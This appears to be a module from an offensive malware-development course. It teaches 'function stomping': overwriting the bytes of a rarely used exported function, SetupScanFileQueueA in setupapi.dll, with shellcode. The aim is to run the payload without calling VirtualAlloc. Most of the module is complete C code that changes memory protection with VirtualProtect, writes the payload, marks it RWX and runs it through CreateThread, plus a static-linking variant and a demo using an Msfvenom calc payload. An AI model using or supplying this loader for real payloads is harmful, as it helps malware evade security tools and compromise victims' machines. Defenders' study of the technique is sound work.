




Introduction
The previously demonstrated mapping injection modules were used to avoid the usage of VirtualAlloc/Ex WinAPI calls. This module will demonstrate another method that avoids the usage of these WinAPIs.
Function Stomping
The term "stomping" refers to the act of overwriting or replacing the memory of a function or other data structure in a program with different data.
Function stomping is a technique where the original function's bytes are replaced with new code resulting in the function being replaced or no longer working as intended. Instead, the function will execute different logic. To implement this, a sacrificial function address is required to be stomped.
Choosing a Target Function
Retrieving the address of a function locally is simple, but which function is being retrieved is the main concern with this technique. Overwriting a commonly used function can result in the uncontrolled execution of the payload or the process can crash. Therefore it should be clear that targeting functions exported from ntdll.dll, kernel32.dll and kernelbase.dll is risky. Instead, less commonly used functions should be targeted such as MessageBox since it will be rarely used by the operating system or other applications.
Using The Stomped Function
When a target function's bytes are replaced with that of the payload's, the function cannot be used anymore unless it is specifically for payload execution. For example, if the target function is MessageBoxA then the binary should only call MessageBoxA once, which is when the payload will be executed.
Local Function Stomping Code
For the code demonstration below, the target function is SetupScanFileQueueA. This is a completely random function but is unlikely to cause any problems if it's overwritten. Based on Microsoft's documentation, the function is exported from Setupapi.dll. Therefore the first step would be to load Setupapi.dll into the local process memory using LoadLibraryA and then retrieve the function's address using GetProcAddress.
The next step would be to stomp the function and replace it with the payload. Ensure the function can be overwritten by marking its memory region as readable and writable using VirtualProtect. Next, the payload is written into the function's address and finally, VirtualProtect is used again to mark the region as executable (RX or RWX).
#define SACRIFICIAL_DLL "setupapi.dll"#define SACRIFICIAL_FUNC "SetupScanFileQueueA"// ...
BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
DWORD dwOldProtection = NULL;
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)){
printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastError());
return FALSE;
}
memcpy(pAddress, pPayload, sPayloadSize);
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}
int main() {
PVOID pAddress = NULL;
HMODULE hModule = NULL;
HANDLE hThread = NULL;
printf("[#] Press <Enter> To Load \"%s\" ... ", SACRIFICIAL_DLL);
getchar();
printf("[i] Loading ... ");
hModule = LoadLibraryA(SACRIFICIAL_DLL);
if (hModule == NULL){
printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] DONE \n");
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
if (pAddress == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
printf("[i] Writing ... ");
if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
return -1;
}
printf("[+] DONE \n");
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Inserting DLL Into Binary
Instead of loading the DLL using LoadLibrary and then retrieving the target function's address with GetProcAddress, it's possible to statically link the DLL into the binary. Using the pragma comment compiler directive allows for this, as shown below.
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address TableThe target function can then be simply retrieved using the address-of-operator (e.g. &SetupScanFileQueueA). The code snippet below updates the previous code snippet to use the pragma comment directive.
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table// ...
int main() {
HANDLE hThread = NULL;
printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
printf("[i] Writing ... ");
if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { // Using the address-of operator
return -1;
}
printf("[+] DONE \n");
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo
Retrieving SetupScanFileQueueA's address.

The original bytes of the SetupScanFileQueueA function.

Replacing the function's bytes with the Msfvenom calc payload.

Running the payload.
